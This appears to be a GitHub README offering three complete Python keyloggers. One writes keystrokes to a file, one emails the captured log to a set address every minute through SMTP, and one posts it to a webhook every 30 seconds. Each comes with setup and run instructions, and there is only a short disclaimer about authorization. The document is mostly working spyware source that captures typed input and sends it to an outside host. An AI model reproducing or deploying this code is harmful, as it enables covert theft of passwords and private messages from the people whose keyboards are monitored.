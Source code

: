 

# Keylogger Project

This project includes several implementations of keyloggers in Python. Each implementation captures keyboard inputs and logs them either to a file or sends them to a specified email address or webhook.

## Features

- **File-Based Keylogger**: Logs keystrokes to a file.
- **Email-Based Keylogger**: Sends logs to an email address at regular intervals.
- **Webhook-Based Keylogger**: Sends logs to a webhook at regular intervals.

**Please use this software responsibly and ensure you have proper authorization before deploying any keylogger. Unauthorized use may be illegal and unethical.**

## Implementations

### 1. File-Based Keylogger

This implementation logs keystrokes to a text file with timestamps. 

**Script: `file_keylogger.py`**

```python
import keyboard
from datetime import datetime
import uuid

# Open the file outside the function
log_file = open(f"keylog_{uuid.uuid4()}.txt", 'a')

def on_key(event):
    key = event.name
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    # Use the globally opened file
    log_file.write(f"[{timestamp}] Key: {key}\n")
    # Ensure data is saved immediately to disk
    log_file.flush()

# Start the keylogger
keyboard.on_press(on_key)
keyboard.wait()

# Close the file at the end of the program
log_file.close()
```

**How to Use:**

1. **Install Dependencies:**

    ```bash
    pip install keyboard
    ```

2. **Run the Script:**

    ```bash
    python file_keylogger.py
    ```

3. **Logs**: Check the directory for a file named `keylog_<uuid>.txt` where `<uuid>` is a unique identifier.

### 2. Email-Based Keylogger

This script logs keystrokes to a file and sends the logs to a specified email address at regular intervals.

**Script: `email_keylogger.py`**

```python
import keyboard
from datetime import datetime
import smtplib
import schedule
import time

def on_key(event):
    key = event.name
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    with open('keylog.txt', 'a') as f:
        f.write(f"[{timestamp}] Key: {key}\n")

keyboard.on_press(on_key)

def send_email():
    from_addr = 'your@email.de'  # Your email address
    to_addr = 'target@email.de'    # Target email address
    subject = 'Keylogs'   # Email subject
    body = ''             # Email body

    # Open the file with logged keystrokes
    with open('keylog.txt', 'r') as f:
        body = f.read()

    # Establish SMTP connection and send email
    try:
        server = smtplib.SMTP('example.smtp.server', 587) # Replace with your SMTP server
        server.starttls()
        server.login(from_addr, 'YourSecretPassword')  # Your email password
        msg = f"From: {from_addr}\nTo: {to_addr}\nSubject: {subject}\n\n{body}"
        server.sendmail(from_addr, to_addr, msg)
        server.quit()
        print('Email successfully sent!')
    except Exception as e:
        print(f"Error sending email: {e}")

# Schedule email sending every 60 seconds
schedule.every(60).seconds.do(send_email)

# Start the scheduler
while True:
    schedule.run_pending()
    time.sleep(1)
```

**How to Use:**

1. **Install Dependencies:**

    ```bash
    pip install keyboard schedule
    ```

2. **Configure SMTP Settings:**
   - Replace `example.smtp.server` with your SMTP server.
   - Replace `your@email.de` with your email address and `YourSecretPassword` with your email password.
   - Replace `target@email.de` with the recipient’s email address.

3. **Run the Script:**

    ```bash
    python email_keylogger.py
    ```

### 3. Webhook-Based Keylogger

This version sends keystroke logs to a webhook at regular intervals.

**Script: `webhook_keylogger.py`**

```python
from dhooks import Webhook
from pynput.keyboard import Listener
from threading import Timer

WEBHOOK_URL = 'YOUR_WEBHOOK_URL_HERE' # Replace with your webhook URL
TIME_INTERVAL = 30  # Time between each report, in seconds.

class Keylogger:
    def __init__(self, webhook_url, interval):
        self.interval = interval
        self.webhook = Webhook(webhook_url)
        self.log = ""

    def _report(self):
        if self.log != '':
            self.webhook.send(self.log)
            self.log = ''
        Timer(self.interval, self._report).start()

    def _on_key_press(self, key):
        self.log += str(key)

    def run(self):
        self._report()
        with Listener(on_press=self._on_key_press) as listener:
            listener.join()

if __name__ == '__main__':
    Keylogger(WEBHOOK_URL, TIME_INTERVAL).run()
```

**How to Use:**

1. **Install Dependencies:**

    ```bash
    pip install dhooks pynput
    ```

2. **Configure Webhook URL:**
   - Replace `YOUR_WEBHOOK_URL_HERE` with your webhook URL.

3. **Run the Script:**

    ```bash
    python webhook_keylogger.py
    ```

## Important Notes

- **Ethical Use**: Ensure you have permission to use keyloggers and comply with relevant laws and regulations. Unauthorized use may be illegal and unethical.
- **Dependencies**: Make sure to install the required Python libraries using `pip`.
- **Configuration**: Update the script with your SMTP server, email credentials, and webhook URL as needed.

## License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

